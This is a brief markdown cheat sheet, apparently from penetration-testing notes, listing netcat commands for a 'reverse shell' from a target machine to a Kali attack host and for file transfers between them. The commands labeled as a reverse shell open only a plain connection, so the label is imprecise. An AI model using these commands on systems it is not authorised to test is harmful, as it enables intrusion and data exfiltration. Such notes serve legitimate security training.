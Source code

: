 ## Netcat
*These commands assume that the `nc` or `nc.exe` binary is installed on both Kali and target machines*

### Netcat Reverse Shell
1. Listen on Kali machine: 
```bash
nc -nvlp $PORT
```

2. Connect from target machine: 
```bash
nc -nv $KALI_IP $PORT
```

### Netcat File Transfers
1. Listen for file on target machine:
```bash
nc -nvlp $PORT > $FILENAME
```

2. Send file from Kali machine:
```bash
nc -nv $TARGET_IP $PORT < /path/to/file
```
